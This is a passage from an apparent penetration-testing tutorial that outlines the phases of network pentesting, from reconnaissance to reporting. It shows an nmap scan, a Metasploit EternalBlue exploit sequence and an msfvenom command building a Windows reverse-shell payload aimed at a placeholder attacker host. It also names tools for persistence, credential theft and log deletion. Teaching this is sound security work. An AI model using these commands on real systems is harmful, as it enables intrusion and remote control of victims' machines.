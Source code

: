 ## 2.1 Overview

Network penetration testing simulates attacks to discover vulnerabilities in network infrastructure, allowing defenders to patch weaknesses before attackers exploit them.

## 2.2 Phases of Network Penetration Testing
1. **Reconnaissance**: Gather target info.
   - Passive: Public data (e.g., Whois, Google Dorks).
   - Active: Direct interaction (e.g., port scanning).
   - Tools: Maltego, Recon-ng, Shodan.
2. **Scanning/Enumeration**: Detect live hosts, ports, and services.
   - Types: Port, network, vulnerability, application, wireless scanning.
   - Tools: Nmap, Nessus, OWASP ZAP, Wireshark.
   - Use `Nmap` for port and service scanning:

     ```bash
     nmap -sS -sV -T4 target_ip
     ```
     
3. **Gaining Access**: Exploit vulnerabilities to access systems.
   - Techniques: SQL injection, password cracking, social engineering.
   - Tools: Metasploit, SQLMap, Hydra.
   - Example:

     ```bash
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS target_ip
     run
     ```
4. **Maintaining Access**: Ensure persistent access via backdoors.
   - Techniques: Rootkits, Trojans, privilege escalation.
   - Tools: Meterpreter, Mimikatz, Cobalt Strike.
5. **Covering Tracks**: Hide evidence (simulated for ethical hacking).
   - Techniques: Log deletion, timestamp changes.
   - Tools: CCleaner, log manipulation scripts.
6. **Reporting**: Document findings and remediation steps.
   - Content: Vulnerabilities, exploits, proof-of-concept, fixes.

**Example**:
- Reconnaissance reveals a company’s IP range via Shodan.
- Scanning with Nmap finds open ports, followed by SQL injection exploitation using SQLMap.
- A report suggests patching and firewall rules.


## 2.3 Payload Generation with `msfvenom`

`msfvenom` is used to create custom payloads for exploitation.

**Example: Generate a reverse shell payload for Windows:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe -o shell.exe
```
